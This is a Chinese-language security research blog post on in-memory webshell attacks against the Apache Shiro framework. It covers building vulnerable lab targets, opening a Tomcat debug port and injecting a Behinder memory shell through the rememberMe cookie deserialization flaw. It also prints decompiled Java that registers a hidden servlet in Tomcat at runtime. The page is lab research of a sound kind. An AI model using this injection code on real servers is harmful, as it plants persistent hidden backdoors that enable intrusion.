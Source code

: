 ```yaml
---
layout: about
category: about
Researchname:  基于内存的Shiro框架Webshell攻击研究
toc: true
author: Bin4xin
wrench: 2021-11-19
permalink: /about/Research-on-Webshell-Attack-of-Shiro-Framework-Based-on-Memory/
desc: 「其他研究」
---
```


# 基于内存的Shiro框架Webshell攻击研究

- ✅Shiro框架部署
    * IDEA tomcat调试部署
    * docker compose
- ✅Shiro框架攻击
    * 手动poc
    * 工具poc
- ✅基于tomcat的通用回显
    * tomcat冰蝎内存马
        * 利用原理
        * 攻击测试
- ✅给👴连！


## 零：Shiro框架部署
现如今部署一个靶场的方法有很多，取决于个人喜好和需求；我结合个人能力做出了一些总结：

{: .table}
| 特点\部署办法 | docker-compose | IDEA tomcat调试部署 | Docker+IDEA | 
| :--- | :--- | :--- | :--- |
| 快捷程度 | 几条命令快捷部署 | 需开放调试端口+tomcat war包(如无则需源码构建) | 你懂的 | 
| 能否调试 | ❎ | ✅ | ✅ |
| 自定义靶场（如页面） | ❎ | ✅ | ✅ | 

#### # 0x01：IDEA tomcat调试部署
本篇文章会侧重描述如何进行针对IDEA的tomcat调试部署；

- 克隆源码
  * 以shiro-721为例：
    ```
    git clone https://github.com/apache/shiro.git
    cd shiro
    git checkout shiro-root-1.4.1
    mvn install
    cd samples/web
    mvn install
    ```
  * 找到`{path-to-shiro}/samples/web/target`目录下的war包复制到tomcat webapps目录下：
    ```
    $ tree
    target
    ··
    │   ├── index.jsp
    │   ├── login.jsp
    │   ├── logout.jsp
    │   └── style.css
    ├── samples-web-1.4.1.war
    
    $ cp samples/web/target/samples-web-1.4.1.war {path-to-tomcat}/webapps/
    ```
- 开放tomcat调试端口：
    * 找到`bin/catalina.sh`文件中的`JAVA_OPTS`（会有多个），修改如下：
    ```
      JAVA_OPTS="$JAVA_OPTS $JSSE_OPTS"
      
      # Register custom URL handlers
      # Do this here so custom URL handles (specifically 'war:...') can be used in the security policy
      JAVA_OPTS="$JAVA_OPTS -Djava.protocol.handler.pkgs=org.apache.catalina.webresources"
      CATALINA_OPTS="-Xdebug -Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y"
      #上面的CATALINA_OPTS为新增；address为调试端口，可自行更改。
    ```
    * `bin/startup.sh`启动，看到以下日志打印则开放调试成功：
    ```
      $ tail -f logs/catalina.out
      Listening for transport dt_socket at address: 5555
      10-Mar-2021 09:51:16.763 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log Server.服务器版本: Apache Tomcat/8.5.57
      ···
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xdebug
      10-Mar-2021 09:51:16.769 信息 [main] org.apache.catalina.startup.VersionLoggerListener.log 命令行参数：-Xrunjdwp:transport=dt_socket,address=5555,suspend=n,server=y
    ```
- IDEA+tomcat调试：
    * IDEA配置（添加server时为`Tomcat Server`->`Remote`）：
    ![lzFJ2uNZPagBfn6.png](https://image.yjs2635.xyz/images/2022/02/20/lzFJ2uNZPagBfn6.png)

      * 如下图，加上`home.jsp`断点后进行http请求，可以看到IDEA中返回的frames详情；
    ![6WGlumFBdDwstVY.png](https://image.yjs2635.xyz/images/2022/02/20/6WGlumFBdDwstVY.png)


这样基本上一个基本的IDEA+tomcat的调试配置过程基本就完成了，当然，这只是调试前的准备工作，大家多练习几次，基本上就能够熟练掌握；而最重要的以及最难的其实是调试阶段，
调试过程中的一些技巧和能力是在一次次的实践中沉淀下来的，在这里仅仅当作抛砖引玉，不做赘述。



#### # 0x02：docker compose部署

- 准备工作
    * 根据不同操作系统下载安装docker；
    * 安装`python->pip->docker-compose`，教程自行搜索:)
- 下载靶场
    * vulhub based on docker：
    ```
      $ git clone https://github.com/vulhub/vulhub.git
      $ cd vulhub/shiro/CVE-2016-4437/
      $ docker-compose up -d
    ```
等待启动即可。

## 一：Shiro框架攻击
poc代码生成攻击cookie可以参考之前的文章：
#### 1x01：手动poc
[分享：Different Shiro Framework deserialization analysis ideas#how to poc](/about/ShiroDeser/#2x03how-to-poc){:target="_blank"}
#### 1x02：工具poc
[分享：Different Shiro Framework deserialization analysis ideas#验证](/about/ShiroDeser/#%E4%BA%8C%E9%AA%8C%E8%AF%81){:target="_blank"}

## 二：基于tomcat的通用回显之冰蝎内存马
这一小节由于个人水平有限，不能像各位师傅一样从tomcat servlet等层面一探究竟，我尽量使用简洁的语言写出我的理解；
#### # 2x01：攻击测试
工具直接选择"冰蝎2_Tomcat"，执行注入；
- http发包请求如下：
![tUJATRsNyZQFWX4.png](https://image.yjs2635.xyz/images/2022/02/20/tUJATRsNyZQFWX4.png)

- 我们可以看到HTTP请求为POST请求`p`&`path`&`dy`数据；同时header中加入了`rememberMe Cookie`；

- 分析：
Cookie是作为反序列化的入口，`dy`参数应该是写入内存的命令

同时最后返回`dynamic inject success`；

- 注入成功效果：
![jKPIn8YHdTsW9LS.png](https://image.yjs2635.xyz/images/2022/02/20/jKPIn8YHdTsW9LS.png)

#### # 2x02：利用原理
我们把利用工具的jar包扔进反编译软件定位到`BehOldDemoServlert.class`，我们来看看代码是怎么工作的：
```java
  public void dynamicAddServlet(ServletContext servletContext) throws Exception {
    Method method;
    String wrapperName = this.path;
    ApplicationContextFacade applicationContextFacade = (ApplicationContextFacade)servletContext;
    Field applicationContextField = applicationContextFacade.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext)applicationContextField.get(applicationContextFacade);
    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext)standardContextField.get(applicationContext);
    Object newWrapper = invoke(standardContext, "createWrapper", (Object[])null);
    invoke(newWrapper, "setName", new Object[] { wrapperName });
    setFieldValue(newWrapper, "instance", this);
    Class<?> containerClass = Class.forName("org.apache.catalina.Container", false, standardContext.getClass().getClassLoader());
    Object oldWrapper = invoke(standardContext, "findChild", new Object[] { wrapperName });
    if (oldWrapper != null)
      standardContext.getClass().getDeclaredMethod("removeChild", new Class[] { containerClass }); 
    standardContext.getClass().getDeclaredMethod("addChild", new Class[] { containerClass }).invoke(standardContext, new Object[] { newWrapper });
    try {
      method = standardContext.getClass().getMethod("addServletMappingDecoded", new Class[] { String.class, String.class });
    } catch (Exception var9) {
      method = standardContext.getClass().getMethod("addServletMapping", new Class[] { String.class, String.class });
    } 
    method.invoke(standardContext, new Object[] { this.path, wrapperName });
    init((ServletConfig)getFieldValue(newWrapper, "facade"));
  }
```
